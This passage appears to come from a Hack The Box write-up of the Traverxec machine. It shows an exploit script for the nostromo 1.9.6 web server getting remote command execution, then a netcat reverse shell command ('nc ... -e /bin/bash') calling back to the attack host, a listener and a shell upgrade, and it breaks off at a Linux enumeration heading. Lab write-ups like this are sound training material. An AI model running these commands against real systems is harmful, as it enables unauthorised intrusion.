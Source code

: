 Test it out, and I can get remote command execution on the target:

```bash
┌──(rxhackk㉿kali)-[~/…/HTB/BOXES/TRAVERXEC/exploit]-[tun0: 10.10.16.2]
└─$ python3 ./nostroSploit.py
usage: nostroSploit.py [-h] host port [cmd]
nostroSploit.py: error: the following arguments are required: host, port
                                                                                                                   
┌──(rxhackk㉿kali)-[~/…/HTB/BOXES/TRAVERXEC/exploit]-[tun0: 10.10.16.2]
└─$ python3 ./nostroSploit.py 10.10.10.165 80 whoami
[+] Connecting to target
[+] Sending malicious payload
HTTP/1.1 200 OK
Date: Thu, 24 Mar 2022 09:20:54 GMT
Server: nostromo 1.9.6
Connection: close


www-data
```

## FOOTHOLD

### reverse shell (netcat)

We get a bind shell from the target back to  our attack host:

```bash
┌──(rxhackk㉿kali)-[~/…/HTB/BOXES/TRAVERXEC/exploit]-[tun0: 10.10.16.2]
└─$ python3 ./nostroSploit.py 10.10.10.165 80 "nc 10.10.16.2 443 -e /bin/bash"                                
[+] Connecting to target
[+] Sending malicious payload
```

Set up our listener, and upgrade our shell once we're in there:

```bash
└─$ sudo rlwrap nc -lnvp 443                                                                                   1 ⨯
listening on [any] 443 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.165] 37170
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
which python
/usr/bin/python
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@traverxec:/usr/bin$ 
```

## LINUX ENUMERATION

I try these manual find lines first for various vulnerable file types:
